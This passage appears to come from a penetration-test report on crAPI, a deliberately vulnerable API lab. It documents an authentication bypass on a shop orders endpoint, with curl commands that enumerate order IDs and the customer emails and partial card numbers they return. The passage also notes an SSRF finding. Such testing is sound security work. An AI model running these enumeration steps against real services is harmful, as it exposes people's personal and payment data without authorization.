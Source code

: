 **Notes:** 
- SSL verification is disabled (`verify=False`) in the server's HTTP client, making HTTPS internal services accessible
- The vulnerability enables complete network reconnaissance, credential theft, and potential access to cloud credentials if proper metadata headers are crafted
- This represents a complete bypass of network security boundaries using the application as an unintended proxy

# Authorization Exploitation Evidence

## Successfully Exploited Vulnerabilities

### AUTHZ-VULN-03: Shop Orders Authentication Bypass

**Summary:**
- **Vulnerable location:** GET /workshop/api/shop/orders/{order_id}
- **Overview:** Complete authentication bypass allowing unauthenticated access to any user's order data
- **Impact:** Unauthorized access to sensitive customer order information, payment details, and personal data
- **Severity:** Critical

**Prerequisites:** None (unauthenticated access)

**Exploitation Steps:**
1. Access the shop orders endpoint without any authentication:
   ```bash
   curl -X GET "https://crapi.sandbox.local:8888/workshop/api/shop/orders/1" \
     -H "Content-Type: application/json"
   ```

2. Enumerate multiple order IDs to access different users' data:
   ```bash
   curl -X GET "https://crapi.sandbox.local:8888/workshop/api/shop/orders/2" \
     -H "Content-Type: application/json"
   ```

**Proof of Impact:**
Successfully accessed order data for multiple users without authentication:
- Order 1: adam007@example.com, card ending in 9541, $20.00 transaction
- Order 2: pogba006@example.com, card ending in 9918, $20.00 transaction  
- Order 3: robot001@example.com
- Order 4: test@example.com
- Order 5: admin@example.com

Each response includes full order details, payment information (partially masked card numbers), customer email addresses, and transaction IDs.

**Notes:** This vulnerability affects all order records in the system and requires no authentication whatsoever.

---

### AUTHZ-VULN-04: Community Posts Ownership Bypass
